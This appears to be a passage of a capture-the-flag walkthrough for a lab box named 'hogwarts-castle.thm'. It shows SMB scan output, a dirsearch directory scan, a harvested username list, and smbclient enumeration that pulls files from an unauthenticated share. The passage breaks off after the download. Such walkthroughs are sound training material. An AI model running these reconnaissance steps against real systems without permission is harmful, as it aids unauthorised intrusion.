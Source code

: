 ```bash
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-06-18T21:23:40
|_  start_date: N/A
...
```

<h3>dirsearch</h3>
<p><code>/backup/email</code></p>

```bash
:~# dirsearch -u http://TargetIP -r -x 401,402,403,404
...
```

![image](https://github.com/user-attachments/assets/f6c27ba0-159d-4b9e-80a0-ba21ecef3bd2)

<h3>http://TargetIP/backup/email</h3>

![image](https://github.com/user-attachments/assets/0a1a3275-9a81-4e3b-b182-a7583feb7e94)

<h3>usernames.txt</h3>

```bash
:~# cat usernames.txt
madeye
roar
echo
```

<h3>/etc/hosts</h3>

```bash
:~# echo "TargetIP hogwarts-castle.thm" | sudo tee -a /etc/hosts
```

<h3>smbclient</h3>

```bash
:~# smbclient -L hogwarts-castle.thm
Password for [WORKGROUP\root]:

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	sambashare      Disk      Harry's Important Files
	IPC$            IPC       IPC Service (ip-xx-xx-xxx-xxx server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

```bash
:~# smbclient //hogwarts-castle.thm/sambashare
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> ls

  .                                   D        0  Thu Nov 26 01:19:20 2020
  ..                                  D        0  Thu Nov 26 00:57:55 2020
  spellnames.txt                      N      874  Thu Nov 26 01:06:32 2020
  .notes.txt                          H      147  Thu Nov 26 01:19:19 2020

		9182548 blocks of size 1024. 2834312 blocks available
smb: \> mget *
Get file spellnames.txt? y
getting file \spellnames.txt of size 874 as spellnames.txt (213.4 KiloBytes/sec) (average 213.4 KiloBytes/sec)
Get file .notes.txt? y
```